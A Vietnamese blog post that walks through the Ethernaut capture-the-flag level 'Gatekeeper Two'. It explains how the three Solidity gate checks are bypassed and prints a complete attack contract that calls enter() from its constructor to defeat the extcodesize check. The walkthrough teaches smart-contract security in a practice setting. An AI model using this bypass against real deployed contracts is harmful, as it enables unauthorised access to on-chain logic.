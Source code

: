 ```yaml
---
layout: post
title: 'The Ethernaut: 14 - Gatekeeper Two'
mathjax: true
---
```


# 14. Gatekeeper Two 　 ★★★★★★

**Nhiệm vụ**: vượt qua 3 cánh cổng khác và thay đổi địa chỉ của cửa vào

```js
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Phân tích & Solution

Ta sẽ phân tích cách vượt qua từng cửa một giống như bài [GatekeeperOne](http://dotrungkien.github.io/2018/06/21/the-ethernaut-13/)

### Cửa số 1

```js
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

`tx.origin` sẽ là địa chỉ nguồn nơi phát đi giao dịch, là một ai đó, `msg.sender` là địa chỉ gọi tới hàm hiện tại

Có nghĩa là, khi ta gọi trực tiếp một hàm contract thông thường thì `msg.sender` và `tx.origin` là giống nhau, còn nếu ta gọi hàm đó thông qua một contract trung gian thì `tx.origin` vẫn sẽ là ta, nhưng `msg.sender` sẽ là contract trung gian.

Vì thế ta chỉ cần dùng một contract trung gian là có thể vượt qua cửa số 1.

### Cửa số 2

```js
modifier gateTwo() {
  uint x;
  assembly { x := extcodesize(caller) }
  require(x == 0);
  _;
}
```

`extcodesize(caller)` chính là lấy ra lượng code chứa trong `caller` gọi đến contract `GatekeeperTwo` này. `caller` có thể là người (account thông thường), cũng có thể là contract.

một điều kiện quan trọng ở đây chính là `require(x == 0)`, có nghĩa là `caller` không có tí code nào ? hay caller chỉ có thể là người. Điều này chẳng phải đã phủ nhận điều kiện ở gate 1 rồi hay sao ? làm thế nào để ta có thể qua được 2 cửa cùng một lúc được ?

Đó chính là lúc ta cần đến `yellow paper` - tài liệu đặc tả kỹ thuật của ethereum, trong đó có đoạn:

> During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while
> CODESIZE should return the length of the initialization cod

có nghĩa là trong contract thì trong constructor codesize vẫn là 0, chỉ sau khi hoàn thành constructor thì codesize mới có giá trị.

Điều này gợi ý ta vượt qua gate 2 bằng cách gọi hàm enter ngay trong constructor của contract tấn công, nó vừa đảm bảo ta dùng contract trung gian, lại vừa đảm bảo `codesize == 0`. Yeah!

### Cửa số 3

```js
modifier gateThree(bytes8 _gateKey) {
  require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
  _;
}
```

điều kiện này rất là dễ, chỉ đơn thuần là một phép _XOR_ mà thôi. Ta biết rằng nếu `a XOR b = c` thì `b = a XOR c`, một tính chất rất cơ bản của _XOR_. Do đó:

```js
uint64(_gateKey) = uint64(keccak256(msg.sender)) ^ (uint64(0) - 1)
```

có một điều lưu ý ở đây, do chúng ta sử dụng contract trung gian để tấn công, vì thế địa chỉ `msg.sender` ở đây chính là địa chỉ của contract trung gian, nên trong code của contract trung gian, ta phải thay thế `msg.sender` bằng `address(this)`

Cuối cùng code của contract tấn công sẽ như sau:

```js
contract Backdoor {
  function Backdoor (address _target) public {
    GatekeeperTwo(_target).enter(bytes8((uint64(uint64(keccak256(address(this)))^(uint64(0) - 1)))));
  }
}
```

đơn giản phải không. Paste lên Remix, compile với địa chỉ `_target` là địa chỉ instance của bạn.

![png]({{ site.url }}/assets/images/GatekeeperTwo.png)

Kiểm tra lại xem entrant đã đổi thành địa chỉ của mình chưa ?

```js
> await contract.entrant()
"0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b"
```

Submit && All done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## Bình luận

Đây là một bài tập theo kiểu dạng "biết thì rất dễ, không biết thì không biết đằng nào mà lần". Phần `assembly { x := extcodesize(caller) }` thực sự là một trick rất khó nhằn.

Enjoy coding!
